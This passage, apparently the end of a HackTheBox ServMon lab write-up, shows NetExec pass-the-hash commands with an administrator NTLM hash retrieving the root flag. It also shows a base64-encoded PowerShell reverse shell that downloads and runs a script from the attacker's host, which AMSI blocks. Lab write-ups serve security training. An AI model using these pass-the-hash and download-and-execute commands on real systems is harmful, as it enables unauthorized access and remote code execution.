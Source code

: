 There it is!

```console
$ nxc smb servmon.htb -u administrator -H 'c8bbef7fd5afe37cbb1aee2264a75fee' --get-file '/users/administrator/desktop/root.txt' root.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\administrator:c8bbef7fd5afe37cbb1aee2264a75fee (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [*] Copying "/users/administrator/desktop/root.txt" to "root.txt"
SMB         10.10.10.184    445    SERVMON          [+] File "/users/administrator/desktop/root.txt" was downloaded to "root.txt"

$ cat root.txt
25650b...
```

That's the system flag, but I still feel like I haven't really owned the machine. Reverse shell attempts still fail:

```console
$ nxc smb servmon.htb -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:c8bbef7fd5afe37cbb1aee2264a75fee' -X 'powershell -e aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAxAC8AYwBvAG4AcAB0AHkAcwBoAC0ANAA0ADMALgBwAHMAMQAgAC0AdQBzAGUAYgBhAHMAaQBjAHAAYQByAHMAaQBuAGcAKQAKAA=='
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\administrator:c8bbef7fd5afe37cbb1aee2264a75fee (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [-] Command execution blocked by AMSI
```

But, at least that confirms it's AMSI.

## Post-exploitation

Notes:

- I didn't need to use LigoloNG here, I could have just forwarded the port via SSH since it was running on this Windows target.
- The NSClient++ password was also available via: `nscp web -- password --display`
- See [0xdf's walk-through](https://0xdf.gitlab.io/2020/06/20/htb-servmon.html) for how to manually exploit the NSClient++ vulnerability.

## Open Questions

Unresolved issues encountered while attacking this target.

- I'd like to learn more about bypassing AMSI, but since I'm focused on the OSCP and can safely ignore all AV countermeasures for now, I'll have to come back to this later.
